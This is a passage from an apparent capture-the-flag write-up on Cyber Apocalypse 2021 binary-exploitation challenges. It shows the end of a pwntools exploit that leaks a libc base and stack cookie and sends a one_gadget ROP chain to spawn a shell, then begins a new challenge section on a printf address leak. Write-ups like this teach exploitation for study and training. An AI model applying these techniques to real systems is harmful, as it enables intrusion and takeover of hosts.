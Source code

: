```python

    cookie = int(m.group(1), 0)

    print("Libc base: %x" % libc_base)
    print("Cookie: %x" % cookie)
    
    # 2. Stealing pies with inventory function
    p.sendline(b'2')

    p.recvuntil(b'> ')
    p.sendline(b'y')

    p.recvuntil(b'> ')
    p.sendline(b'-11')

    p.recvuntil(b'> ')
    
    # 3. Exploitation
    p.sendline(b'3')
    p.recvuntil(b'> ')

    ropchain = b''

    one_gadget = 0x4f3d5
    ropchain += flat({
      40: p64(cookie),
      56: p64(libc_base + one_gadget),
    }, length=64, filler=cyclic(64, n=8))

    p.send(ropchain)

    p.interactive()
```


## Save the environment - Difficulty 2/4

*Challenge files: [pwn_save_the_environment.zip](/posts/binaries/Cyber_Apocalypse_2021/pwn_save_the_environment.zip)*

The `environment` binary is an 64bits ELF that allows to plant or recycle.

![fig_environment](/posts/img/Cyber_Apocalypse_2021-environment.png)

Rapidly we view that the challenge is to exploit the binary and not to find bugs. Indeed the vulnerabilities are trivially discovered:

* A leak to `printf` inside the function `recycle->form` after 5 reclycle command

```c
color("You have already recycled at least 5 times! Please accept this gift: ", "magenta");
printf("[%p]\n", &printf);
```
